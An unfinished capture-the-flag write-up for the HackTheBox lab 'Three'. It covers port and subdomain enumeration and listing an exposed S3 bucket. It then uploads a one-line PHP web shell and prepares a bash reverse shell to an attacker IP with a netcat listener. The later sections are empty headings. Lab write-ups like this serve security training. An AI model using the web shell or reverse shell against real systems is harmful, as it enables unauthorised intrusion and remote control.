










## Target: Three 
## Platform: HTB
## Date: 06/27/26
## Difficulty: Easy
## Tools: Nmap, Gobuster, AWSCLI, Netcat


## Recon & Enumeration
 Scanned target for open ports 
 ```bash
sudo nmap -sV 10.129.126.39
```


Found two open ports 
- 22/tcp ssh(OpenSSH 7.6p1)
- 80/tcp http (Apache 2.4.29)

Visited the website of the target IP and viewed the page source. 



Found contact form containing a reference to a .php page indicating the web application backend is built using php 



Navigated to the broken Contact page which contained an email "thetoppers.htb"

---

***Subdomain Enumeration***

Began subdomain enumeration of the target by appending "thetoppers.htb"

```bash
gobuster vhosts -w /usr/share/seclists/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain=true
```




Gobuster revealed that the sub-domain s3.thetoppers.htb exists. Visited the subdomain using a browser to confirm that the service is indeed running.




Searched through to find objects within the bucket 

```bash
aws --endpoint=http://thetoppers.htb s3 ls s3://thetoppers.htb
```




The s3 bucket object index.php confirmed that the website is running PHP

---


## Exploitation

**Initial Access**

Created a PHP function and file to take the URL parameter cmd as an input and execute it as a system command: 

```bash
echo '<?php system($_GET["cmd"]); ?>' >  shell.php
```




Uploaded the PHP shell file to the S3 bucket:

```bash 
aws --endpoint=http://s3.thetoppers.htb/ s3 cp shell.php s3://thetoppers.htb/
```



Confirmed the existence of the uploaded shell by navigating to http://s3.thetoppers.htb/shell.php and executing the id command 

[!Shell-Success](Images/three_shell-confirmation.jpeg)


### Establishing a Foothold 

#### Preparing the Reverse Shell & Listener ####

Created a Bash reverse shell (shell.sh) that establishes a TCP connection to the attacker's machine and redirects the stdin, stdout, and stderr over the connection 

```bash
bash -i >& /dev/tcp/10.10.17.95/1337 0>&1

```



Began a Netcat Listener on port 1337 to receive the incoming reverse shell connection 

```bash 
nc -lvnp 1337
```



#### Hosting the Payload ####

Started a Python Web Server to host the reverse shell payload, allowing the compromised host to access it over HTTP

```bash

```


### Post Exploitation

**Lateral Movement**


**Privilege Escalation**


### Key Takeaway


